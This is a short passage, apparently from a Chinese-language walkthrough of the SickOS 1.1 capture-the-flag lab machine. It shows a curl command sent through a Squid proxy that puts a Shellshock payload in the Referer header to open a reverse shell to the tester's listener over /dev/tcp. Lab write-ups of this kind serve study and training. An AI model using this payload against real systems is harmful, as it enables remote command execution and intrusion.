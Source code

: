 监听的端口并没有收到反弹shell，显示没有对应的目录，因此要把命令中的sh写为完整路径/bin/bash，我们先重启一个监听：

![image-20231210144828892](./SickOS1.1.assets/image-20231210144828892.png)

接下来另一个终端重新构造curl命令，将sh改为/bin/bash，完整的命令如下：

```
curl -v --proxy http://10.9.75.14:3128 http://10.9.75.14/cgi-bin/status -H "Referer:() {  test;}; 0<&185-;exec 185<>/dev/tcp/10.9.75.3/6868;/bin/sh <&185 >&185 2>&185"
```

![image-20231210145012780](./SickOS1.1.assets/image-20231210145012780.png)

好像反弹成功了，但是好像没有回想
